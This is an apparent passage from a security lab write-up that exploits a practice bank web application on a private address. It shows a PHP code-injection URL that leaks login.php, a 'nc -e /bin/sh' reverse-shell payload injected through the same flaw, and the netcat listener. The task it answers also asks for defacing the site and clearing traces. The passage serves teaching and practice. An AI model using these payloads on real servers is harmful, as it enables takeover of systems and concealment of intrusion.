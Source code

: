  \`\`\`

 - Application URL 

 \`\`\`javascript

 http://192.168.37.128/htdocs/index.php

 ?account=173105291page=htbdetails

 &query=%27.+system%28%22cat+login.php%22%29

 +.%27&submit=Submit+Query

 \`\`\`

 - \*\*Result\*\*

  

 !\[leak\_source\_2\](images/task2/leak\_source\_2.PNG)

  
  

\_\_7. Suppose you are an anonymous attacker:

a) Upload a web shell on the victim server and show that you can take

control of the server.

b) Deface the main bank page.

c) Clear possible traces that could lead to you.\_\_

\_\_solution :\_\_

  

\*\*a\*\*). Used \`netcat\` for creating a reverse connection from victim machine

\- payload used:

\`\`\`php

 '. system("nc -e /bin/sh 192.168.37.128 1234") .'

\`\`\`

  

\- On attcker machine (listen on corresponding port - 1234),

  

\`\`\`bash

 $ sudo nc -lvnp  1234 

\`\`\`

  

\- \*\*Result\*\* (received connection from victim)

  

!\[reverse\_shell\](images/task2/reverse\_shell.PNG)

  